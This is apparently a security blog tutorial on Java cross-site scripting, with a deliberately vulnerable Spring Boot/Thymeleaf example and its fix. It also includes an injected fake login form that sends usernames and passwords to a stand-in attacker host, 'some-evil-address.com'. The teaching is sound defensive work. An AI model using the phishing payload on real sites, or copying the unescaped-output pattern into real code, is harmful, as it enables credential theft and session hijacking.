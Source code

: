 
https://www.stackhawk.com/blog/java-xss/

/////////
/////////
/////////



Security is one of those areas in software development where it’s really important you get it right. At the same time, it’s often easy to get it wrong, especially in teams that suffer from not-invented-here syndrome and refuse to adopt the best practices and state-of-the-art tools that would prevent many issues from happening. Today we’re here to cover one very specific security problem: Java XSS.

We’ll start by defining XSS, talking very briefly about what it is, its types, and why it can be so dangerous to your applications. After that, we’ll walk you through a list of three XSS examples in Java and show you what you should do to prevent them. Let’s get started.
Find and Fix Security Vulnerabilities
Java XSS: What’s This? Why Should You Care?

“Java XSS” is simply XSS done to a Java app. So, what’s XSS?

We have another post dedicated solely to answering that question, and we suggest you check it out. Here’s the short version, though.

XSS stands for cross-site scripting. This is a type of attack that explores vulnerabilities in websites and injects malicious client-side scripts that are then executed by users. The malicious inject script can cause many different effects, ranging from mostly harmless to potentially catastrophic. A highly successful XSS attack can give the attacker access to the user’s personal data. It’s even possible to hijack the user’s session by stealing their session cookie, in which case the consequences can be dire.
Java XSS Examples

Web applications might suffer an XSS attack regardless of their back-end language. Java is certainly no exception to that. So, we’ll now walk you through three basic examples of what an attempted XSS attack on a Java app could look like and how to prevent them.
Example #1: XSS Through Parameter Injection

For our first example, we’ll show a basic XSS attack that can be done through a query parameter. For the example, we’ll use a Spring Boot app that simply takes a name as an input parameter and then displays “Hello, !”
The Code

Here’s what the app’s controller looks like:
Java

package com.example.demo;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class GreetingController {

	@GetMapping("/greeting")
	public String index(@RequestParam(name="name", required=true) String name, Model model) {
		model.addAttribute("name", name);
		return "greeting";
	}
}

The controller defines an index action method, which will be mapped to the /greeting route. The method defines a required string parameter called name. It then adds the received value as an attribute to the model.

Let’s now see our view for this action:
HTML

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head> 
    <title>Getting Started: Serving Web Content</title> 
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
    <p th:utext="'Hello, ' + ${name} + '!'" />
</body>
</html>

As you can see, what’s happening here is quite simple. The name variable, whose value is what the user has passed as a query parameter, gets concatenated to a message that the view then displays inside a tag. No rocket science going on here.
The Attack

If I run the app and pass my name as a query parameter, that’s what I see:
java-xss-img-1 image

Pretty unremarkable, right? So, what’s the problem? Well, let’s start by checking whether we can input some HTML:
java-xss-img-2 image

That’s bad news. We did manage to input HTML code that was parsed and displayed as such. Let’s say we want to run the following line of JavaScript:

Could we do it? Let’s see:
java-xss-img-3 image

As you can see, the current code is insecure. We’ve managed to sneak in and run a harmless snippet of JavaScript. In the same way, a bad actor could certainly run a harmful script. They could send a URL to unsuspecting users, causing them to click those links, passing the malicious script as a parameter. For instance, the attacker could use a malicious script that steals the user’s cookie, effectively hijacking its session.
How to Prevent This

The example above is what we call a reflected or non-persistent XSS. One action you can take against it is to escape user input. The view in our example has a deliberate error, to allow unescaped content to be displayed as it is. Pay attention to the following line:

<p th:utext="'Hello, ' + ${name} + '!'" />

In the line above, we’re using the Thymeleaf templating engine to display the greeting in the view. Notice the usage of the utext attribute processor. That stands for unescaped text and is the reason why HTML tags are being displayed. Let’s solve that by changing the attribute to text:

<p th:text="'Hello, ' + ${name} + '!'" />

Now, if I try to sneak in a piece of JavaScript, this is what I get:
java-xss-img-4 image

Mature frameworks such as Spring usually have security features that, when used correctly, should protect your apps against the most common types of attacks. That’s probably one of the best business cases for using third-party tools like frameworks and libraries: the security goodies they often offer by default.
Example #2: Using a Fake Form to Steal User Credentials

The use cases for XSS are virtually infinite. They’re only bound by the attacker’s ingenuity and your app’s vulnerability. Let’s explore yet another scenario, showing how an attacker can create a fake form to steal user credentials by using XSS.
The Code

For this example, we’ll use the same code samples for the previous one, with one change. We’ll change back the th:text Thymeleaf attribute to th:utext so we can get away with providing HTML tags as inputs.
The Attack

For this attack, the attacker wants to inject and display HTML code for a simple form:
HTML

<h3>LOGIN</h3> 
<form action=http://some-evil-address.com> 
<label for="username">Username:
</label> 
<input type="text" name="username" id="username" /> 
<label for="password">Password:</label> 
<input type="password" name="password" id="password"> 
<input type="submit" value="OK">

Notice that the form’s action attribute points to a URL controlled by the attacker. The idea here is to lure the unsuspecting victim into submitting their credentials using this form. In order to do that, the attacker could simply pass the HTML for the form as a query parameter to the vulnerable site and share that URL with the victim, in what’s called a phishing attack:
java-xss-img-5 image

This is, of course, a toy example. A real attack would probably make use of styling to make the fake form look as realistic as possible, with the intent of luring more people into the trap.
How to Prevent It

As in the previous example, preventing this attack consists of escaping content so tags aren’t displayed. In the case of Thymeleaf templating language, that means using the safe th:text attribute.
Example #3: XSS Through Forms

For our third and final example, we won’t use a code sample. Instead, we’ll use a demo site that is deliberately insecure against XSS, to allow people to practice. Here’s what the site looks like:
java-xss-img-6 image
The Attack

To perform the attack, we’ll exploit the comment functionality of the site, which is not protected. Let’s start by clicking on Agenda. Then, I’ll click on any of the talks listed. I’ll see a form that allows me to input a comment:
java-xss-img-7 image

I’ll enter my name normally. However, my comment will be a JavaScript snippet that displays a message:
java-xss-img-8 image

After submitting the form, the alert will be displayed:
java-xss-img-9 image
How to Prevent It

Since this is a demo site and we have no way of knowing which tech stack was used to build it, I’ll offer no prevention sample code in here. Suffice it to say that the same principles apply: Java or otherwise, you must research and adopt mature tools and frameworks that come with built-in features to counter the most common security vulnerabilities.
Find and Fix Application Security Vulnerabilities with Automated Testing
XSS: More Ways to Prevent It

In this post, we’ve covered some examples of XSS in Java, showing how they can be prevented. We did that after explaining briefly what XSS is about and why it can be such a dangerous threat to the security of your app.

This is the main takeaway from the post: never trust data that comes from outside the application. Always treat any kind of input as suspect until you escape it.

Before escaping, input validation is another valuable strategy when dealing with user input. For some kinds of data, it might make sense to use an “allow-list” approach, where you have a list of the valid data that can be accepted and everything else is denied.

Finally, there are tools at your disposal that can help you not only with XSS but with other types of security threats. You can add those checks to your CI/CD pipeline, allowing you to find threats as early as possible in the software development process.

This post was written by Carlos Schults. Carlos is a consultant and software engineer with experience in desktop, web, and mobile development. Though his primary language is C#, he has experience with a number of languages and platforms. His main interests include automated testing, version control, and code quality.
